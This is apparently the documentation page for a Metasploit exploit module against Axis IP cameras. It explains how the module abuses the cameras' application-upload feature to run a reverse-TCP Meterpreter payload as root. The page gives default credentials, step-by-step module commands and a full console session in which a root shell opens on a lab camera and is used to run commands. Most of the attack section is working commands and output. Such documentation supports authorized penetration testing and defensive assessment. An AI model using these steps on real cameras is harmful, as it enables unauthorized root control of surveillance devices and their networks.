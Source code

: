 ## Vulnerable Application

### Description

This module exploits the "Apps" feature in Axis IP cameras. The feature allows third party
developers to upload and execute 'eap' applications on the device. The system does not validate
the application comes from a trusted source, so a malicious attacker can upload and execute
arbitrary code. The issue has no CVE, although the technique was made public in 2018.

This module uploads and executes stageless meterpreter as `root` via the application upload
feature. The module will also uninstall the application upon completion. Uploading the application
requires valid credentials. The default administrator credentials used to be `root:root` but
newer firmware versions force users to provide a new password for the `root` user.

The module was tested on an Axis M3044-V using the latest firmware (9.80.3.8: December 2021).
All devices that support the "App" feature are presumed to be vulnerable at this time.

### Installation

Axis cameras are physical devices and aren't known to have been successfully emulated. However,
if you have a device, affected firmware can be downloaded from:

* https://www.axis.com/

A free account is required to navigate the site but you can download specific firmware without
authentication. For example, the latest version for the Axis M3044-V can be downloaded here:

* https://www.axis.com/ftp/pub/axis/software/MPQT/M3044-V/9_80_3_8/M3044-V_9_80_3_8.bin

## Verification Steps

* Acquire an affected device
* Do: `use exploit/linux/http/axis_app_install`
* Do: `set RHOST <ip>`
* Do: `set PASSWORD <password>`
* Do: `check`
* Verify the remote target is flagged as vulnerable
* Do: `set LHOST <ip>`
* Do: `exploit`
* You should get a Meterpreter session.

## Options

### USERNAME

The username to authenticate to the web server with. The default value is "root".

### PASSWORD

The password to authenticate to the web server with. The default value is "root".

## Scenarios

### Axis M3044-V using firmware 9.80.3.8. Get Meterpreter session.

```
msf > use exploit/linux/http/axis_app_install
[*] Using configured payload linux/armle/meterpreter_reverse_tcp
msf exploit(linux/http/axis_app_install) > options

Module options (exploit/linux/http/axis_app_install):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   root             yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   root             yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (linux/armle/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Dropper


msf exploit(linux/http/axis_app_install) > set RHOST 192.168.1.183
RHOST => 192.168.1.183
msf exploit(linux/http/axis_app_install) > check
[*] 192.168.1.183:80 - The target is not exploitable. The user provided credentials did not work.
msf exploit(linux/http/axis_app_install) > set PASSWORD labpass1
PASSWORD => labpass1
msf exploit(linux/http/axis_app_install) > check
[*] 192.168.1.183:80 - The target appears to be vulnerable. The target reports itself to be a 'AXIS M3044-V'.
msf exploit(linux/http/axis_app_install) > set LHOST 192.168.1.217
LHOST => 192.168.1.217
msf exploit(linux/http/axis_app_install) > run

[*] Started reverse TCP handler on 192.168.1.217:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target reports itself to be a 'AXIS M3044-V'.
[*] Creating an application package named: jtn
[*] Sending an application upload request to /axis-cgi/packagemanager.cgi
[+] Application installed. Pausing 5 seconds to let the filesystem sync.
[+] Deleted /etc/systemd/system/jtn.service
[*] Meterpreter session 1 opened (192.168.1.217:4444 -> 192.168.1.183:49602 ) at 2022-02-24 18:45:19 -0800
[*] Sending a delete application request to /axis-cgi/applications/control.cgi
[+] The application jtn was successfully removed from the target!

meterpreter > getuid
Server username: root
meterpreter > shell
Process 13863 created.
Channel 1 created.
id
uid=0(root) gid=0(root)
cat /proc/cpuinfo
processor	: 0
model name	: ARMv7 Processor rev 1 (v7l)
BogoMIPS	: 156.00
Features	: half thumb fastmult vfp edsp neon vfpv3 tls vfpd32
CPU implementer	: 0x41
CPU architecture: 7
CPU variant	: 0x4
CPU part	: 0xc09
CPU revision	: 1

Hardware	: Ambarella S2L (Flattened Device Tree)
Revision	: 0000
Serial		: 0000000000000000
pwd
/
```
